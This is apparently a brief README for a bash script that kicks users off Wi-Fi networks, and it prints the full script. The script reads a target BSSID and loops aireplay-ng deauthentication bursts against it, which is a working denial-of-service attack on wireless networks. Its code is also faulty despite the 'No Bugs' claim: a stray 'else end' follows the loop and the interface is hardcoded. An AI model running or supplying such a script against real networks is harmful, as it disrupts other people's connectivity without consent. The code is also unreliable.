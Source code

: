# Deauthenticate Users from Network

```bash
sudo bash script.bash
```

## Features

- Useable on any Linux System with Aireplay.ng 
- No Bugs
- Simple to use
- Made by a pro

## Script's Code

```shell
echo "Enter BSSID" 

read ssid
clear
for i in {1..10}; do sudo aireplay-ng --deauth 2 -a $ssid wlan0 ; date ; sleep 5 ; done

else end 
```


